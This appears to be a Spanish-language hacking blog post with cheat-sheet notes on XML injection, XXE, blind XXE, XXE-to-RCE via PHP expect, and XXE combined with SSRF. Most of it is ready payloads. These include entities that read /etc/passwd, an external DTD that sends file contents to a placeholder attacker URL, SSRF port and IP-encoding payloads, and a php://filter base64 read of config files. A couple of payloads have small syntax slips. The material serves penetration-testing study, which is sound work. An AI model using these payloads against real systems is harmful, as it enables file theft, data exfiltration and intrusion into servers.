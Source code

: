 ```yaml
---
title: "XML Injection"
layout: post
date: 2022-05-17 15:00
image: /assets/images/SQL_Injection.png
headerImage: true
tag:
- web
- hacking
- xml
category: blog
description: Técnica de XML Injection
---
```


# XML Injection

Consulta normal
```
/example.php?xml=<test>hacker</test>
```

Consulta vulnerada
```
/example.php?xml=<!DOCTYPE foo [<!ENTITY xmli "testing">]><test>&xmli;</test>
```

**IMPORTANTE encodear los carácteres de la consulta**

# XML eXternal Entities - XXE

Es posible indicarle al parser XML un archivo externo para poder leerlo.
```xml
<!ENTITY name SYSTEM "URI">
```

Ejemplo
```xml
<!DOCTYPE message [
	...
	<!ENTITY xxefile SYSTEM "file:///etc/password">
]>
<message>
	<body>&xxefile;</body>
</message>
```

Petición
```xml
../example.php?xml=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>
```

# Blind XXE Injection

En este caso es algo más complejo ya que el sistema tiene que tener acceso o visibilidad con el sistema del atacante.

La base de está vulnerabilidad está en la posibilidad de realizar peticiones por DTDs externos. Una manera simple de realizar una petición sería la siguiente:

exfill.dtd
```xml
<!ENTITY % file SYSTEM []"file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://[url atacante]/?x=%file;'>">
%eval;
%exfil;
```

Petición

```xml
../example1.php?xml=<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://[URL atacante]/exfil.dtd"> %xxe;]><test>hola</test>
```

# XXE to RCE - Remote Code Execution

Para poder hacer esto la aplicación tiene que tener habilitado el módulo ‘expect’ de PHP.

```xml
/example.php?xml=<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "expect://PWD">]>
<test>&xxe</test>
```

Adicionalmente se podría lograr con otro métodos, como por ejemplo el uso de la clase de **Java XMLDecoder** en el lado del servidor.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/04b2522f-d817-4aa7-928f-92b228ffac9d/Untitled.png)

# XXE + SSRF

## Server-side Request Forgery

Esta vulnerabilidad se da cuando la máquina vulnerada puede hacer peticiones a otras máquinas internas de la organización, mostrando de forma total o parcial el recurso en la web.

También permite mapear servicios existentes en la red del sistema.

## Como explotar

Una vez se ha identificado una inclusión de ficheros dentro de una aplicación web se puede intentar utilizar esta para acceder a recursos internos de la organización.

### Ejemplo vulnerable

```xml
vulnerable.com/index.php?url=index.php
```

### Payloads

-   http://[..]:80/
-   http://[..]:25/ SMTP
-   http://[..]:22/ SSH
-   http://[..]:3128/ SQUID
-   [http://2130706433/](http://2130706433/) = [http://127.0.0.1](http://127.0.0.1)
-   [http://3232235521/](http://3232235521/) = [http://192.168.0.1](http://192.168.0.1)

# Evasión de filtros

## Parameter Entitites + CDATA + DTD

## Uso de PHP + Base64

Si convertimos el contenido de un archivo a base64 podemos imprimir carácteres especiales que no son imprimibles mediantes XML.

```xml
php://filter/read=**convert.base64-encode**/resource=/path/to/config.php
```

# Recursos externos

## **Ampliación general sobre la explotación de XXE:**

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## Ampliación general sobre la explotación de SSRF:

[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Requ)

## Tipos de inyecciones XXE:

[Lista de payloads para inyecciones XXE (XML External Entity)](https://www.hackplayers.com/2019/12/lista-de-payloads-para-inyecciones-xxe.html)
